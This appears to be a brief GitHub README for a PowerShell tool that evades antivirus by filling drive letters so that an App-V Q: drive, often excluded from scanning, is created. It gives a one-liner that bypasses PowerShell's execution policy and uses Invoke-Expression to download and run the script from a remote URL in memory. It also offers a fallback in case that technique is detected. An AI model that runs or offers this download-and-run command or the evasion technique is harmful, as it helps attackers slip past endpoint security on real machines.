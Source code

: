 # a(pp)v
App-V uses a Q: drive which often is excluded from AV scanning. 
This script tries to create drives through P: so the next drive will be Q:, effectively evading AV.

Just type the following command in PowerShell console:
powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/intosec-nl/a-pp-v/master/a%5Bpp%5Dv.ps1')"
Or if you suspect invoke-expression is caught, just download the scipt.
